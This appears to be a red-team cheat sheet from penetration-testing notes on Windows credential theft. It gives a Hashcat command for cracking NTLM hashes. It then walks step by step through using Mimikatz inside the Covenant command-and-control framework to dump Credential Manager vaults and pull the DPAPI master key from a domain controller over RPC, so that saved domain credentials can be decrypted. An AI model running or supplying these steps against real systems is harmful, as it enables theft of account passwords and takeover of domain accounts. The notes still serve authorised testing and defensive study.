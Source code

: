

### Cracking Credentials

**Hashcat**:
```bash
hashcat.exe -a 0 -m 1000 <hash> -r <rule file> <wordlist>

# -m 1000 = NTLM
```

→ https://hashcat.net/wiki/doku.php?id=example_hashes

→ https://github.com/NotSoSecure/password_cracking_rules

**Cracking Vault with Covenant**:

First enable RDP in DC.

in Workstation-01:
```bash
Control Panel\User Accounts\Credential Manager
```

> If someone log in the DC For example, the credential will be stored in the credential manager.
We cant see the password, but its stored there... What that means? means that we can get.

In Covenant Shell:
Workstation-01 - medium integrity:
```bash
mimikatz vault::cred
```

To find where the credentials are:
```bash
ls c:\users\<user.domain>\appdata\local\microsoft\credentials
grab the full path
```

Open another Covenant Shell in a new tab:
```bash
Grunts > shell > Task > Mimikatz > "dpapi::cred /in:<paste full path from credentials>" > Task
grab the guidMasterKey
```

```bash
ls C:\users\<user.domain>\appdata\roaming\microsoft\protect
# then ls the full path result
# this should show the guidMasterKey > copy the full path & compare with the guidMasterKey from before

Grunts > shell > Task > Mimikatz > "dpapi::masterkey /in:<full path of guidMasterKey> /rpc" > Task

# rpc = remote procedure call
# in the end of the output we should find the key value of DC > copy & save the key

# Go back to Task > "dpapi::cred /in:<full path of credentials> /masterkey:<key value>" > Task
```
